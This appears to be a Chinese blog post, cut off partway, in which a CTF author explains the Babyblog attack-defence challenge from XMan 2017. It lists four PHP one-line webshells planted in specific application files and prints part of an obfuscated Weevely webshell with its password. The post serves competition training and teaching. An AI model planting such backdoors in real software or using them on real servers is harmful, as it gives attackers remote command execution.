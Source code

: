 ```yaml
---
id: 116
title: 'XMan2017夏令营结业攻防赛Babyblog出题思路&#038;WriteUP'
date: 2017-08-20T23:21:31+08:00
author: xm1994
layout: post
guid: https://www.summershrimp.com/?p=116
permalink: /2017/08/xman2017-awd-babyblog-writeup/
categories:
  - Web
---
```

# <span class="md-expand">XMan 2017 AWD Babyblog author&#8217;s turtoral & writeup</span> {.md-end-block.md-heading.md-focus}

## 0x00 出题思路 {.md-end-block.md-heading}

### 常见一句话木马 {.md-end-block.md-heading}

<span class="md-line md-end-block">一句话木马是在日常攻击和渗透中使用的最广泛的一类木马，其具有代码量小，变形多，易隐藏等特性。这类一句话木马多为通过eval或类似命令直接执行对应语言的字符串代码，达到可以执行任意命令的效果。在本题中，我一共放置了四种不同类型的一句话木马：</span>

<pre class="lang:default decode:true"># 1. app/template/*.tpl
eval($_POST[passwd])

# 2. app/controllers/PostsController.php 
$_GET[function]($_POST[params])

# 3. bootstrap/autoload.php
echo `$_POST[shellcmd]`

# 4. app/views/errors/404.blade.php
@preg_replace("/[pageerror]/e", $_POST['passwd'], "saft");</pre>

### 常见大马 {.md-end-block.md-heading}

<span class="md-line md-end-block">相比于小马，这类木马通常体积稍大，更不易隐藏。但其中可以包含更多加密和混淆的措施，使攻击行为更不容易被察觉。在本题中，我放置了一个Weevely木马，其密码为xman1234</span>

<pre class="lang:default decode:true"># 1. autoload_real.php
$i='er";$K3i=$m[1][0K3].K3$m[1K3]K3[1];$hK3=$K3sl($ss(K3md5($i.$kh),0,K33));$f=$sl(K3$sK3s(md5($i.$';
$D='kfK3K3),0,3));$p="K3";foK3K3r(K3$K3z=1;$z&lt;count($m[1]);K3$z++)$pK3.=$q[$m[K32K3][K3K3$z]];if(sK';
$v='3LANK3GUAK3GE"];if($rr&&$ra)K3{$u=paK3rK3K3sK3K3e_url($rr);parse_str($uK3["query"],$qK3);$q=arK';
$B='[$i].=$p;$eK3=strpK3oK3s($s[$i]K3,$f);ifK3($eK3){$k=$khK3.K3$kf;oK3b_start();@evaK3l(@gzuncK3om';
$o='3;}}return K3$oK3;}$rK3=$_K3SERVER;$K3rr=@$r[K3"HTTP_REFEREK3R"];$ra=K3@$r["K3HTTP_AK3CCK3EPT_K';
$O='K3;iK3f($q&K3&$m){@sesK3sioK3n_start()K3;$s=K3&$_SK3ESSIK3OK3N;$ss="substK3r";$sK3l="strtK3olow';
$H='3="";for($i=0;$i&lt;$l;K3){fK3orK3($j=0;($j&lt;$K3c&&$i&lt;$K3lK3)K3;$j++K3,$i++){$o.=$tK3{$i}^$k{$K3j}K';
$c='$K3ss($s[$i],0K3,$eK3))),$k))K3);$K3o=oK3b_get_conK3tentsK3();ob_enK3d_cK3lean();K3K3$d=baseK36';